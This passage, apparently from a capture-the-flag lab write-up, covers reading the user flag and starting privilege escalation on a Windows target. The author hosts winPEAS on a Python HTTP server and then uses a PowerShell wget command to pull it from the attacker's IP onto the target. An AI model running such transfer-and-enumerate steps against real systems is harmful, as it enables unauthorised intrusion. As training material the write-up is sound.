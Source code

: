   - you can type "`more user.txt`" to read the flag , let's find how to get the root flag.

#### Privilege Escalation

- For privilege escalation, we are going to use a tool called `winPEAS`, which can automate a big part of the
enumeration process in the target system.

- It is possible to download winpeas from [Here](winPEASx64.exe).
- We will transfer it to our target system by using once more the Python HTTP server:

  ```py
  python3 -m http.server 80
  ```

- On the target machine, we will execute the `wget`command in order to download the program from our
system.
- The file will be downloaded in the directory from which the wget command was run.
- We will use powershell for all our commands:

  ```py
  powershell
  wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe
  ```

- ![can't display an image](images/powershell.png)